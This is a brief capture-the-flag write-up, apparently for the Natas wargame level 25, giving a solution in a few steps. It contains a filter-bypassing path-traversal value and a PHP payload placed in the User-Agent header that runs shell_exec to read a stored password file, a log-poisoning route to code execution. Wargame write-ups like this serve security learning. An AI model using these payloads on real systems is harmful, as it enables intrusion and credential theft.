 ![image](https://github.com/user-attachments/assets/cfb316b3-fb28-4a94-ad61-7cf469fa8e87)


solution:

fire up the burp, capture the request.
lang=....//....//....//....//....//var/www/natas/natas25/logs/natas25_0jcdrhk2m2u5l6sfbqo0gi00r5.log 
send this query. 0jcdrhk2m2u5l6sfbqo0gi00r5 is my PHPSESSID cookie.
Also change the user agent to <?php echo shell_exec("cat /etc/natas_webpass/natas26"); ?>
send this request.
